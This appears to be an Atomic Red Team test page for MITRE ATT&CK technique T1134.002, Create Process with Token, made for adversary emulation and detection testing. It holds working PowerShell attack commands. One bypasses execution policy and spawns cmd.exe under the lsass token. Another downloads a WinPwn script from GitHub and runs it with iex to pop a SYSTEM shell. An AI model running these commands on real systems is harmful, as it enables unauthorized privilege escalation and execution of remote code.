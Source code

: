 # T1134.002 - Create Process with Token
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1134/002)
<blockquote>Adversaries may create a new process with an existing token to escalate privileges and bypass access controls. Processes can be created with the token and resulting security context of another user using features such as <code>CreateProcessWithTokenW</code> and <code>runas</code>.(Citation: Microsoft RunAs)

Creating processes with a token not associated with the current user may require the credentials of the target user, specific privileges to impersonate that user, or access to the token to be used. For example, the token could be duplicated via [Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001) or created via [Make and Impersonate Token](https://attack.mitre.org/techniques/T1134/003) before being used to create a process.

While this technique is distinct from [Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001), the techniques can be used in conjunction where a token is duplicated and then used to create a new process.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access Token Manipulation](#atomic-test-1---access-token-manipulation)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using Token Manipulation technique](#atomic-test-2---winpwn---get-system-shell---pop-system-shell-using-token-manipulation-technique)


<br/>

## Atomic Test #1 - Access Token Manipulation
This Action demonstrates how an access token for a specific program can spawn another program under a different owner. 
Adversaries can leverage access tokens to run programs under a different user not only to achieve privilege escalation but also to evade detection by blending in with normal user activity. 
This Action will query all processes and list the process name and owner.It will then make a copy of an existing token to create a new instance of cmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** dbf4f5a9-b8e0-46a3-9841-9ad71247239e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ExecutionPolicy -Scope Process Bypass -Force
$owners = @{}
gwmi win32_process |% {$owners[$_.handle] = $_.getowner().user}
Get-Process | Select ProcessName,Id,@{l="Owner";e={$owners[$_.id.tostring()]}}
$PathToAtomicsFolder\T1134.002\src\GetToken.ps1; [MyProcess]::CreateProcessFromParent((Get-Process lsass).Id,"cmd.exe")
```






<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using Token Manipulation technique
Get SYSTEM shell - Pop System Shell using Token Manipulation technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** ccf4ac39-ec93-42be-9035-90e2f26bcd92






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1');Get-WinLogonTokenSystem
```






<br/>
